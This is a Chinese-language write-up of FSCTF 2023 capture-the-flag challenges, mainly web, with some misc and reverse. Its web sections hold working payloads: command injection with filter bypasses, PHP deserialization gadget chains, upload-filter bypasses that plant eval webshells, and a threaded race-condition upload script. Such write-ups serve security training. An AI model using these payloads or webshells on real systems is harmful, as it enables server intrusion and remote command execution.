







# Web
# 源码！启动！
进入后是一个精美的界面，题目提示查看源码，查看源代码试试，右键发现被禁用。
不过没关系，可以 ctrl+u 查看源码，除此之外还可以在 url 前端添加 'view-source:', 或者 F12 打开开发者工具来查看源码，还有一种就是把网页的 javascript 功能给禁了。
# webshell 是啥捏
题目源码：
<?php | |
highlight_file(__FILE__); | |
$😀="a"; | |
$😁="b"; | |
$😂="c"; | |
$🤣="d"; | |
$😃="e"; | |
$😄="f"; | |
$😅="g"; | |
$😆="h"; | |
$😉="i"; | |
$😊="j"; | |
$😋="k"; | |
$😎="l"; | |
$😍="m"; | |
$😘="n"; | |
$😗="o"; | |
$😙="p"; | |
$😚="q"; | |
$🙂="r"; | |
$🤗="s"; | |
$🤩="t"; | |
$🤔="u"; | |
$🤨="v"; | |
$😐="w"; | |
$😑="x"; | |
$😶="y"; | |
$🙄="z"; | |
$😭 = $😙. $😀. $🤗. $🤗. $🤩. $😆. $🙂. $🤔; | |
if (isset($_GET['👽'])) { | |
eval($😭($_GET['👽'])); | |
}; |
很明显 $😭就是 passthru 系统函数
直接传参即可：
/?👽=ls /
回显
bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
/?👽=cat /fl*
得到 flag。
# Hello,you
进去后是个注册界面，这题考点就是让我们一次执行多个命令，命令之间需要用连接符连接，
payload:
;ls
回显：
Hello,
flag.php
index.php
然后就是绕过过滤了，本题过滤了 cat,flag,tac 等字段，可以用以下 payload 绕过：
;nl fl*
;c\at fl*
;c''at fl??????
# 细狗 2.0
和上题很像，使用
;ls
回显：
行不行啊细狗，你就输了个这？ ;lsindex.php moyu.php
本题过滤了空格。使用 $IFS 绕过：
;ls$IFS/
回显：
行不行啊细狗，你就输了个这？ ;ls$IFS/bin dev docker-entrypoint.sh etc flag flag.sh home lib media mnt opt proc root run sbin srv sys tmp usr var
其他和上题差不多：
;c\at$IFS/fl*
得到 flag。
# ez_php1
题目：
<?php | |
highlight_file(__FILE__); | |
error_reporting(0); | |
include "globals.php"; | |
$a = $_GET['b']; | |
$b = $_GET['a']; | |
if($a!=$b&&md5($a)==md5($b)) | |
{ | |
echo "!!!"; | |
$c = $_POST['FL_AG']; | |
if(isset($c)) | |
{ | |
if (preg_match('/^.*(flag).*$/', $ja)) { | |
echo 'You are bad guy!!!'; | |
} | |
else { | |
echo "Congratulation!!"; | |
echo $hint1; | |
} | |
} | |
else { | |
echo "Please input my love FL_AG"; | |
} | |
} else{ | |
die("game over!"); | |
} | |
?> |
数组绕过 md5
/?a[]=3&b[]=2
然后 post 传入 FL_AG 参数即可。
!CongratulationL0vey0U.php
打开 L0vey0U.php 界面：
<?php | |
highlight_file(__FILE__); | |
error_reporting(0); | |
include "globals.php"; | |
$FAKE_KEY = "Do you love CTF?"; | |
$KEY = "YES I love"; | |
$str = $_GET['str']; | |
echo $flag; | |
if (unserialize($str) === "$KEY") | |
{ | |
echo "$hint2"; | |
} | |
?> | |
flag{This_is_fake_flag} |
错误的 flag 不用管
<?php | |
$d="YES I love"; | |
echo serialize($d); |
执行后传入到 str 即可
/L0vey0U.php?str=s:10:"YES I love";
回显 P0int.php 界面，打开：
<?php | |
highlight_file(__FILE__); | |
error_reporting(0); | |
class Clazz | |
{ | |
public $a; | |
public $b; | |
public function __wakeup() | |
{ | |
$this->a = file_get_contents("php://filter/read=convert.base64-encode/resource=g0t_f1ag.php"); | |
} | |
public function __destruct() | |
{ | |
echo $this->b; | |
} | |
} | |
@unserialize($_POST['data']); | |
?> |
可以看到 flag 在变量 a 中，但我们能控制得只有 b，且只能输出 b，那就用引用的方法让两者地址相等：
<?php | |
class Clazz | |
{ | |
public $a; | |
public $b; | |
} | |
//$d="YES I love"; | |
$c=new Clazz(); | |
$c->b=&$c->a; | |
echo serialize($c); | |
//echo serialize($d); |
data=O:5:"Clazz":2:
base64 解码后即可得到 flag。
# 巴巴托斯！
进入后看到：
Access Denied! I love FSCTF Browser
修改 User-Agent 为 FSCTF Browser
Access Denied! Are you local man?
添加：
Referer:127.0.0.1
没有结果回显，那八成可以了，找一下注入点，发现这里
/index.php?file=show_image.php
应该可以进行 ssrf，
?file=php://filter/convert.base64-encode/resource=flag.php
base64 解码即可。
# EZ_eval
<?php | |
if(isset($_GET['word'])){ | |
$word = $_GET['word']; | |
if (preg_match("/cat|tac|tail|more|head|nl|flag|less| /", $word)){ | |
die("nonono."); | |
} | |
$word = str_replace("?", "", $word); | |
eval("?>". $word); | |
}else{ | |
highlight_file(__FILE__); | |
} |
过滤了空格，那就用 tab 符绕过，又把 '?' 给替换成空，那就用不了 php 段标签，用 javascript 标签。
payload:
?word=<script%09language="php">@eval($_REQUEST['a']);</script>
a=cat /fl*
得到 flag。
# CanCanNeed
<?php | |
class Noteasy{ | |
protected $param1; | |
protected $param2; | |
function __destruct(){ | |
$a=$this->param1; | |
$b=$this->param2; | |
if(preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\*|\||\<|\"|\'|\=|\?|sou|\.|log|scan|chr|local|sess|b2|id|show|cont|high|reverse|flip|rand|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|y2f/i', $this->param2)) { | |
die('this param is error!'); | |
} else { | |
$a('', $b); | |
} | |
} | |
} | |
if (!isset($_GET['file'])){ | |
show_source('index.php'); | |
echo "Hi!Welcome to FSCTF2023!"; | |
} | |
else{ | |
$file=base64_decode($_GET['file']); | |
unserialize($file); } | |
?> | |
Hi!Welcome to FSCTF2023! |
看到b) 就可以想到 create_function，接下来就是绕过正则，payload:
<?php | |
class Noteasy | |
{ | |
protected $param1="create_function"; | |
protected $param2='}require(base64_decode(ZmlsZTovLy9mbGFn));#'; | |
} | |
$a=new Noteasy(); | |
echo base64_encode(serialize($a)); |
传参即可拿到 flag。
# 是兄弟，就来传你の🐎！
题目让我们：Upload a PHP File for FSCTF
尝试上传 php 文件，提示：
not allowed!
上传一张图片，提示长度不能大于等于 15，
后把文件内容改短一点，看到是会校验文件内容的:
File is not an image!
常用的文件头可以绕过，如 GIF89A
再测测文件名，发现 php 后缀是会拦截，可以用 pht 绕过。
因为限制了长度，所以使用 php短标签 ， php标签 不闭合也能执行，可以尽可能缩短内容长度
测试发现，发现 BM 可用

访问得到：
BM bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
于是研究起 linux 命令，发现 sh -c * 可以让当前目录的文件名作为命令执行
echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOw==|base64 -d >1.pht;.pht |
Content-Disposition: form-data; name="file"; filename="3.pht"
Content-Type: image/jpegBM
<?=`sh -c *`;
再访问一下上传命令的 1.pht ，200 访问成功
然后就拿个 webshell 连接工具就行了，密码是 1.
# 寻找蛛丝马迹
wp 一共有六段，F12 打开开发者工具后，可以在源代码 html,js,css 三个文件中看到前三段，
<!-- 挺晃眼睛吧，哥们出题时候都快瞎了。恭喜您，这是第一段 flag:FSCTF {Tell_y0U_n, 第二段您还得接着翻 -->
/* 这是第二段哦：oT_To_p 想必阁下已经猜到第三段在哪了吧 */
// 这是第三段：oInT_oUt_ 阁下当真有水平。既然如此，哥们要上难度了。第四段提示：我不想让谷歌搜到我的网站。
后面三段使用目录扫描工具进行扫描，可以扫到三个文件：

后面三段就在这三个文件中。
# 签到 plus
用 dirsearch 等扫描工具扫到文件 shell.php，进入界面是 phpinfo (); 函数执行界面。
本题的考点就是：
PHP＜=7.4.21 Development Server 源码泄露漏洞

记得关闭 content-length 更新。
然后就是读出 hex 码得到 webshell 密码：
/shell.php?%f0%9f%91%bd%f0%9f%a6%90=cat /fl*
# ez_php2
题目源码：
<?php | |
highlight_file(__file__); | |
Class Rd{ | |
public $ending; | |
public $cl; | |
public $poc; | |
public function __destruct() | |
{ | |
echo "All matters have concluded"; | |
die($this->ending); | |
} | |
public function __call($name, $arg) | |
{ | |
foreach ($arg as $key =>$value) | |
{ | |
if($arg[0]['POC']=="1111") | |
{ | |
echo "1"; | |
$this->cl->var1 = "system"; | |
} | |
} | |
} | |
} | |
class Poc{ | |
public $payload; | |
public $fun; | |
public function __set($name, $value) | |
{ | |
$this->payload = $name; | |
$this->fun = $value; | |
} | |
function getflag($paylaod) | |
{ | |
echo "Have you genuinely accomplished what you set out to do?"; | |
file_get_contents($paylaod); | |
} | |
} | |
class Er{ | |
public $symbol; | |
public $Flag; | |
public function __construct() | |
{ | |
$this->symbol = True; | |
} | |
public function __set($name, $value) | |
{ | |
$value($this->Flag); | |
} | |
} | |
class Ha{ | |
public $start; | |
public $start1; | |
public $start2; | |
public function __construct() | |
{ | |
echo $this->start1."__construct"."</br>"; | |
} | |
public function __destruct() | |
{ | |
if($this->start2==="11111") { | |
$this->start1->Love($this->start); | |
echo "You are Good!"; | |
} | |
} | |
} | |
if(isset($_GET['Ha_rde_r'])) | |
{ | |
unserialize($_GET['Ha_rde_r']); | |
} else{ | |
die("You are Silly goose!"); | |
} | |
?> |
exp:
<?php | |
Class Rd | |
{ | |
public $ending; | |
public $cl; | |
public $poc; | |
} | |
class Poc | |
{ | |
public $payload; | |
public $fun; | |
} | |
class Er | |
{ | |
public $symbol; | |
public $Flag; | |
} | |
class Ha | |
{ | |
public $start; | |
public $start1; | |
public $start2; | |
} | |
$a = new Ha(); | |
$a -> start2 = "11111"; | |
$a -> start1 = new Rd(); | |
$a -> start = ['POC' => '1111']; | |
$a -> start1 ->cl = new Er(); | |
//$a -> start1 ->cl -> Flag = "ls /"; | |
$a -> start1 ->cl -> Flag = "cat /flag"; | |
echo serialize($a); |
# 加速加速
这道题就是一个条件竞争 网上搜 upload-labs 通关甚至你能直接搜到 exp
《Web 安全系列》- 文件上传 - 条件竞争上传 - 腾讯云开发者社区 - 腾讯云 (tencent.com)
这题就是在上传文件时如果你上传的不是图片 过 0.5 秒 (很好跑出来的) 就会给你删掉。
这题目的就是在删掉之前访问你上传的 webshell (所以要你加速快过删除速度)
两种方法，一种是用 burpsuit 发两个包，一种是直接写脚本通过，贴一下官方脚本：
# coding:utf-8 | |
import requests | |
from concurrent.futures import ThreadPoolExecutor | |
def td(list): | |
url = 'http://xxxx/index.php' | |
files = {'upload_file': ( | |
'puu.php',"<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]);?>' ); ?>")} | |
data = {'submit': '上传'} | |
r = requests.post(url=url, data=data, files=files) | |
re = requests.get('http://xxxx/upload/puu.php') | |
if re.status_code == 200: | |
print('上传成功') | |
if __name__ == '__main__': | |
with ThreadPoolExecutor(50) as p: | |
p.map(td, range(2000)) |
还有就是使用 bp：
首先上传 jinzheng.php，使用 bp 截包：
<?php | |
$a='PD9waHAgQGV2YWwoJF9QT1NUWydhJ10pOz8+'; | |
$myfile = fopen("shell.php", "w"); | |
fwrite($myfile, base64_decode($a)); | |
fclose($myfile); | |
?> |
发给 intruder 模块，清除 $，在选项中设置线程数为 20，并设置载荷为空，且无限期重复：


然后就是访问 jinzheng.php 文件，首先得知道文件路径，随便上传一个图片，就知道上传文件都在 /upload 目录下。
同样发给 intruder 模块，同样按照上述设置

这时候两者发起攻击，在访问 jinzheng.php 界面可以看到一个 200 的状态码，说明 jinzheng.php 上传成功，并成功执行生成 shell.php 文件。然后你就可以用蚁剑连接 /upload/shell.php 目录，密码是 a。
# Misc
# 为什么不换换思路捏
打开附件看到密文：
密文：3956305A7652305877676D656E3532626F395664776B3358723557596F52335835423055375A4556444E6C52
典型的 16 进制，转为字符串：
9V0ZvR0Xwgmen52bo9Vdwk3Xr5WYoR3X5B0U7ZEVDNlR
接下来就交给 ciphey 就可以了：

# base 套
附件：
flag 如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如是 ZmxhZ+WmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguWmguaYr1pteGhaK1dtZ3VXbWd1V21ndVdtZ3VXbWd1V21ndVdtZ3VXbWd1V21ndVdtZ3VXbWd1V21ndVdtZ3VXbWd1V21ndVdtZ3VXbWd1V21ndVdtZ3VXbWd1V21ndVdtZ3VXbWd1V21ndVdtZ3VXbWd1V21ndVdtZ3VXbWd1V21ndVdtZ3VXbWd1YVlyMXB0ZUdoYUsxZHRaM1ZYYldkMVYyMW5kVmR0WjNWWGJXZDFWMjFuZFZkdFozVlhiV2QxVjIxb......
后面还有一大串，思路就是删除 'flag 如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如是 ' 后 base64 解密，然后再删除 'flag 如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如是 ' 进行 base64 解密，以此类推，直到出现 flag。
# Reverse
# MINE SWEEPER
用 32 位 IDA 反汇编后，在源码中看到：
puts("FSCTF{We1C0m3 t0 rev w0r1d!!!}");
# signin
upx 脱壳后，看到 main 函数里：
_main();
std::allocator<char>::allocator(&v8);
std::string::string(v7, "FSCTF{1t_15_re4lly_0bv10u5_t0_f1nd}", &v8);
std::allocator<char>::~allocator(&v8);
v3 = std::operator<<<char>(refptr__ZSt4cout, v7);
((void (__fastcall *)(__int64))refptr__ZSt4endlIcSt11char_traitsIcEERSt13basic_ostreamIT_T0_ES6_)(v3);
for ( i = 0; ; ++i )
{
v5 = i;
if ( v5 >= std::string::length((std::string *)v7) )
break;
v4 = *(char *)std::string::operator[](v7, i);
if ( v4 == 49 )
{
*(_BYTE *)std::string::operator[](v7, i) = 105;
}
else if ( v4 > 49 )
{
if ( v4 == 52 )
{
*(_BYTE *)std::string::operator[](v7, i) = 97;
}
else if ( v4 == 53 )
{
*(_BYTE *)std::string::operator[](v7, i) = 115;
}
}
else if ( v4 == 48 )
{
*(_BYTE *)std::string::operator[](v7, i) = 111;
}
}
getchar();
std::string::~string((std::string *)v7);
return 0;
在循环内部，它检查当前字符 v4 的值，如果是 '1'，则将其替换为 'i'，如果是 '4'，则替换为 'a'，如果是 '5'，则替换为's'，如果是 '0'，则替换为 'o'。这是一种字符替换操作。
执行题目的 exe 文件：
FSCTF
把数字改下就是 flag。